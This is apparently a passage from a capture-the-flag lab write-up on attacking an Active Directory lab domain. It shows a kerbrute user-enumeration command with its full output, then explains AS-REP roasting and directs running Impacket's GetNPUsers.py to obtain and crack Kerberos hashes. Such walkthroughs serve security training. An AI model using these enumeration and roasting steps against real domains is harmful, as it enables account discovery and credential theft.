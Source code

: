 ```bash
$ kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/05/20 - Ronnie Flathers @ropnop

2020/08/05 19:28:02 >  Using KDC(s):
2020/08/05 19:28:02 >  	spookysec.local:88

2020/08/05 19:28:03 >  [+] VALID USERNAME:	 james@spookysec.local
2020/08/05 19:28:03 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2020/08/05 19:28:04 >  [+] VALID USERNAME:	 James@spookysec.local
2020/08/05 19:28:04 >  [+] VALID USERNAME:	 robin@spookysec.local
2020/08/05 19:28:07 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2020/08/05 19:28:09 >  [+] VALID USERNAME:	 administrator@spookysec.local
2020/08/05 19:28:13 >  [+] VALID USERNAME:	 backup@spookysec.local
2020/08/05 19:28:15 >  [+] VALID USERNAME:	 paradox@spookysec.local
2020/08/05 19:28:26 >  [+] VALID USERNAME:	 JAMES@spookysec.local
2020/08/05 19:28:30 >  [+] VALID USERNAME:	 Robin@spookysec.local
2020/08/05 19:28:53 >  [+] VALID USERNAME:	 Administrator@spookysec.local
2020/08/05 19:29:39 >  [+] VALID USERNAME:	 Darkstar@spookysec.local
2020/08/05 19:29:54 >  [+] VALID USERNAME:	 Paradox@spookysec.local
2020/08/05 19:30:44 >  [+] VALID USERNAME:	 DARKSTAR@spookysec.local
2020/08/05 19:30:59 >  [+] VALID USERNAME:	 ori@spookysec.local
2020/08/05 19:31:25 >  [+] VALID USERNAME:	 ROBIN@spookysec.local
2020/08/05 19:34:09 >  Done! Tested 100000 usernames (16 valid) in 366.575 seconds
```

## Exploitation

### After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

### [Impacket](https://github.com/SecureAuthCorp/impacket) has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

### Use GetNPUsers.py to achieve kerberos ticket and try to decrypt it. Then, copy the hash and save as hash.txt
